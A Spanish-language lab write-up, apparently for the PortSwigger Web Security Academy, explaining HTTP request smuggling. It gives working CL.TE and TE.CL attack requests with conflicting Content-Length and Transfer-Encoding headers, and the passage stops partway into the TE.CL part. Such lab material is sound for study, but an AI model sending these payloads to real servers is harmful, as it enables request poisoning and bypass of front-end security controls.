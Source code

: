 **Laboratorio 1: HTTP request smuggling, basic CL.TE vulnerability**

Este laboratorio simula una aplicación web que emplea dos servidores (front/back-end) para procesar las request.

El front no procesa codificación en fragmentos y devuelve cualquier request cuyo método no sea GET o POST.

Para resolver este laboratorio manipula el procesamiento de una request en el back-end de forma que la siguiente request aparente utilizar un método que no coincida con GET o POST y sea desechada.

Nos introducimos en el laboratorio e introducimos la siguiente request:

```HTTP
POST / HTTP/1.1
Host: your-lab-id.web-security-academy.net
Connection: keep-alive
Cookie:your-cookie
Content-Type: application/x-www-form-urlencoded
Content-Length: 6
Transfer-Encoding: chunked

0

G
```

De forma:

<div style="text-align:center">
	<img src="{{ 'assets/img/Burp/Pasted image 20220514193132.png' | relative_url }}" text-align="center"/>
</div>

Y al intentar emitirla dos veces obtenemos:

<div style="text-align:center">
	<img src="{{ 'assets/img/Burp/Pasted image 20220514193200.png' | relative_url }}" text-align="center"/>
</div>

<br />

#### 3.3. TE.CL Vulnerabilities.

En esta ocasión, empleamos la siguiente request:

```HTTP
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 3
Transfer-Encoding: chunked


8
SMUGGLED
0
```

